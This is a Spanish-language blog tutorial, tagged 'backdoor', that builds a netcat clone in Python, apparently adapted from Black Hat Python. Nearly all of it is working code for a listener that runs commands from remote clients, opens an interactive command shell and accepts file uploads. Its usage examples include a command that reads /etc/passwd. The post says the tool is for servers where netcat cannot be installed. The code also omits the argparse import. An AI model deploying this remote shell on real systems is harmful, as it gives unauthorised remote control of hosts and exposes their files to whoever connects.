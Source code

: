 ```yaml
---
layout: single
title: "Netcat propio en python"
excerpt: "NetCat es una herramienta bastante util, ya que nos permite abrir puertos TCP/UPD en un host, leer y escribir datos en la red, puede ejecutar comandos remotos, puede abrir una shell remota, entre otras cosas. Aqui crearemos una en nuestro lenguaje de confianza, python. "
date: 2022-08-03 
classes: wide
header:
 teaser:
 teaser_home_page: true
categories:
  - programacion
  - ciberseguridad
tags:
  - seguridad
  - herramienta
  - networks
  - python
  - backdoor
---
```


En ocasiones vemos servidores que no tienen instalado NetCat y/o tampoco permite la instalacion de dicha herramienta, pero si que contamos con python, por lo que utilizaremos este lenguaje para montarnos una herramienta similiar al NetCat.

Vamos a ponerle de nombre al archivo **netcat.py** y empezamos importando las librerias necesarias para trabajar nuestra herramienta

```python
import socket
import shlex
import subprocess
import sys
import textwrap
import threading
```

Cabe resaltar que la libreria **subprocess** nos brinda la creacion de procesos para interactuar con los programas cliente. Creamos una funcion llamada **execute** y le pasamos como parametro ```cmd``` .  Empezamos con nuestra funcion y creamos una variable llamada cmd donde le pasamos el parametro cmd seguido del metodo _strip()_ , este metodo lo que nos hace es eliminar cualquier espacio delante o detras de la palabra. 

Despues de la sentencia if nos creamos una variable llamada **output** y haciendo uso esta misma libreria, subprocess, usamos el metodo _check_output_ que facilmente nos ejecuta un comando en el sistema operativo local y luego devuelve su resultado 

```python
def execute(cmd):
    cmd = cmd.strip()
    if not cmd:
        return
    output = subprocess.check_output(shlex.split(cmd), stderr=subprocess.STDOUT)
    return output.decode()
```


```python
class NetCat:
    def __init__(self, args, buffer=None):
        self.args = args
        self.buffer = buffer
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    def run(self):
        if self.args.listen:
            self.listen()
        else:
            self.send()

    def send(self):
        self.socket.connect((self.args.target, self.args.port))
        if self.buffer:
            self.socket.send(self.buffer)
        try:
            while True:
                recv_len = 1
                response = ''
                while recv_len:
                    data = self.socket.recv(4096)
                    recv_len = len(data)
                    response += data.decode()
                    if recv_len < 4096:
                        break
                if response:
                    print(response)
                    buffer = input('> ')
                    buffer += '\n'
                    self.socket.send(buffer.encode())
        except KeyboardInterrupt:
            print('User terminated.')
            self.socket.close()
            sys.exit()

    def listen(self):
        print('listening')
        self.socket.bind((self.args.target, self.args.port))
        self.socket.listen(5)
        while True:
            client_socket, _ = self.socket.accept()
            client_thread = threading.Thread(target=self.handle, args=(client_socket,))
            client_thread.start()

    def handle(self, client_socket):
        if self.args.execute:
            output = execute(self.args.execute)
            client_socket.send(output.encode())
        elif self.args.upload:
            file_buffer = b''
            while True:
                data = client_socket.recv(4096)
                if data:
                    file_buffer += data
                    print(len(file_buffer))
                else:
                    break
            with open(self.args.upload, 'wb') as f:
                f.write(file_buffer)
            message = f'Saved file {self.args.upload}'
            client_socket.send(message.encode())
        elif self.args.command:
            cmd_buffer = b''
            while True:
                try:
                    client_socket.send(b' #> ')
                    while '\n' not in cmd_buffer.decode():
                        cmd_buffer += client_socket.recv(64)
                    response = execute(cmd_buffer.decode())
                    if response:
                        client_socket.send(response.encode())
                    cmd_buffer = b''
                except Exception as e:
                    print(f'server killed {e}')
                    self.socket.close()
                    sys.exit()

if __name__ == '__main__':
    parser = argparse.ArgumentParser(
        description='BHP Net Tool',
        formatter_class=argparse.RawDescriptionHelpFormatter,
        epilog=textwrap.dedent('''Example:
          netcat.py -t 192.168.1.108 -p 5555 -l -c # command shell
          netcat.py -t 192.168.1.108 -p 5555 -l -u=mytest.whatisup # upload to file
          netcat.py -t 192.168.1.108 -p 5555 -l -e=\"cat /etc/passwd\" # execute command
          echo 'ABCDEFGHI' | ./netcat.py -t 192.168.1.108 -p 135 # echo local text to server port 135
          netcat.py -t 192.168.1.108 -p 5555 # connect to server
          '''))
          
    parser.add_argument('-c', '--command', action='store_true', help='initialize command shell')
    parser.add_argument('-e', '--execute', help='execute specified command')
    parser.add_argument('-l', '--listen', action='store_true', help='listen')
    parser.add_argument('-p', '--port', type=int, default=5555, help='specified port')
    parser.add_argument('-t', '--target', default='192.168.1.203', help='specified IP')
    parser.add_argument('-u', '--upload', help='upload file')
    args = parser.parse_args()
    if args.listen:
        buffer = ''
    else:
        buffer = sys.stdin.read()
    nc = NetCat(args, buffer.encode('utf-8'))
    nc.run()
```